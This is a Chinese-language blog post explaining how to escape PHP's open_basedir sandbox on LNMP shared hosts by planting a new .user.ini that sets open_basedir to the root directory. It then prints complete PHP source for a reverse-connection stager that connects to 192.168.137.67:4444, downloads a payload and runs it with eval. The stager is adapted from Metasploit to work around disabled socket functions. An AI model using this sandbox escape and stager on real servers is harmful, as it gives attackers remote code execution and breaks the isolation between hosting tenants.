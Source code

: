 ```yaml
---
layout: post
title: LNMP虚拟主机PHP沙盒逃逸
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;并不只是针对Lnmp的沙盒逃逸，而是.user.ini的设计缺陷达到绕过open_basedir限制，所以是通用的方法。首先来看看最新版LNMP是怎么配置open_basedir的：

    open_basedir=/home/wwwroot/default:/tmp/:/proc/

    lsattr .user.ini
    ----i----------- .user.ini

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LNMP的open_basedir是通过.user.ini来配置的。再来看disable_functions都禁用了哪些函数：

    lnmp1.3/include/php.sh

<img src="http://pfr2vvlbk.bkt.clouddn.com/5ethrdfb.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;注意到了stream_socket_server被禁用了。这个是用来建立Socket服务端的，完全可以使用其他可创建socket服务端的函数进行反弹个socket会话，比如socket_create、 fsockopen。不过虽是可以建立socket会话，但group为www，所以这个留在后面结合使用。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;.user.ini是不允许增删改的，那怎样能突破限制？.user.ini只在当前目录生效了。那么我们可不可以写入新的.user.ini并且不与原.user.ini冲突，将其open_basedir指向根目录？可以的。


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;首先创建一个目录并写入新的.user.ini。新的.user.ini需要1-3min来生效。

    open_basedir=/

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;最后结合socket，使用msf在新目录生成个反向代理payload并稍加更改就可以了。

    <?php
    error_reporting(0);
    
    $ip = '192.168.137.67';
    $port = 4444;
    $ipf = AF_INET;
    if (FALSE !== strpos($ip, ":")) {
    	$ip = "[". $ip ."]";
    	$ipf = AF_INET6;
    }
    if (($f = 'fsockopen') && is_callable($f)) {
    	$s = $f($ip, $port);
    	$s_type = 'stream';
    } elseif (($f = 'socket_create') && is_callable($f)) {
    	$s = $f($ipf, SOCK_STREAM, SOL_TCP);
    	$res = @socket_connect($s, $ip, $port);
    	if (!$res) {
    		die(); 
    	}
    	$s_type = 'socket';
    } else {
    	die('no socket funcs');
    }
    if (!$s) {
    	die('no socket');
    }
    
    switch ($s_type) {
    	case 'stream': $len = fread($s, 4); break;
    	case 'socket': $len = socket_read($s, 4); break;
    }
    
    if (!$len) {
    	die();
    }
    
    $a = unpack("Nlen", $len); $len = $a['len'];
    $b = '';
    while (strlen($b) < $len) {
    	switch ($s_type) {
    		case 'stream': $b .= fread($s, $len-strlen($b)); break;
    		case 'socket': $b .= socket_read($s, $len-strlen($b)); break;
    	}
    }
    $GLOBALS['msgsock'] = $s;
    $GLOBALS['msgsock_type'] = $s_type;
    eval($b);
    die();
    ?>

<img src="http://pfr2vvlbk.bkt.clouddn.com/rsd.png">